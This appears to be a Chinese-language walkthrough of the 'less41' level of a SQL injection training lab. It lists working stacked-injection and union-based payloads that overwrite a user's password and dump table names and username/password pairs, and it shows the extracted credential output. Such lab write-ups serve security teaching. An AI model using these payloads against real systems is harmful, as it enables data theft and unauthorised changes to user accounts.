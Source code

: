 ```yaml
---
title: less41
url: https://www.yuque.com/u29002979/ep2zrx/gsn9wum6rigdmikk
---
```


```bash
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
/* execute multi query */
if (mysqli_multi_query($con1, $sql))
```

数字型，存在堆叠注入 <a name="fu7F3"></a>

# 堆叠注入

利用堆叠注入，**修改**回Dumb账户原来的密码&#x20;
`?id=1')**; update** security.users set password='Dumb' where username='Dumb'--+`
查询看是发现Dumb账户的密码变成了 'Dumb'
`?id=-1') union select 1,2,(select group_concat(username,0x7e,password)from users)--+`

> Your Username is : 2
> Your Password is : Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~1234,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4,admin'-- +~123456

修改回去密码成功。 <a name="bzYh1"></a>

# 注入点测试

`?id=1'`没有报错提示
`?id=1 and 1=1`显示正常
数字型注入 <a name="eZFGx"></a>

# 联合查询

```bash
判断字段数
?id=1 order by 4--+ 
?id=1 order by 3--+ 

找回显点
?id=-1 union select 1,2,3--+  

爆破数据库名称
?id=-1 union select 1,2,database()--+

爆破数据库表名称
?id=-1 union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+

爆破字段名称
?id=-1 union select 1,2,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'--+

爆破字段内容
?id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users)--+
```
